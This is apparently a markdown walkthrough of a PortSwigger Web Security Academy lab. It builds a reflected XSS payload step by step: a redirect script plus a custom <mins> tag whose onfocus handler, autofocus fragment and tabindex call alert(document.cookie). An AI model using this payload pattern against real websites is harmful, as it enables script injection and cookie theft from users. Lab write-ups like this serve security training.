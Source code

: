 ### Reflected XSS into HTML context with all tags blocked except custom ones : PRACTITIONER

---

We need to create a custom tag to solve this lab, can't use `iframe` in the exploit server.

- We create a `script` manually, and insert in it the `location` variable that redirects the script to the address in it.
- We set its location to the lab and insert the search parameter where we will inject the payload.
```
<script> location = "https://0abc00ce0377f43f8328cd54009500e5.web-security-academy.net/search="; </script>
```

> The next step is to create our own element, as any other will get rejected. Moreover, we need an event that when triggered, will cause our `alert()` function to be called with the `document.cookie`.

```
<mins>
```
- Let `<mins>` be our custom self closing tag.


Use the event `onfocus`, which triggers when you TAB over to it.
- To make this work, we need to include an `id` for our element, and call that id in the URL for it to autofocus once we open the webpage.
```
<mins id=omar>
```

Setting the event handler for the element.
```
<mins id=omar onfocus=alert(document.cookie)>
```

Now putting it all together.
```
<script> location = "https://0abc00ce0377f43f8328cd54009500e5.web-security-academy.net/search= <mins id=omar onfocus=alert(document.cookie)> #omar"; </script>
```
- We add the `#omar` in the end to autofocus to our element for the event to be called.

> It still doesn't work, as we need by default the browser to not head to it. We need for it to TAB over to our element, therefore, we set the default TAB value to 1, so once we load, the 1 then CHANGES to our element, triggering the event.

Do that using `tabindex`.
```
<script> location = "https://0abc00ce0377f43f8328cd54009500e5.web-security-academy.net/search= <mins id=omar onfocus=alert(document.cookie)> tabindex=1 #omar"; </script>
```

We deliver this exploit to victim, and the popup shows and the lab is complete.

---
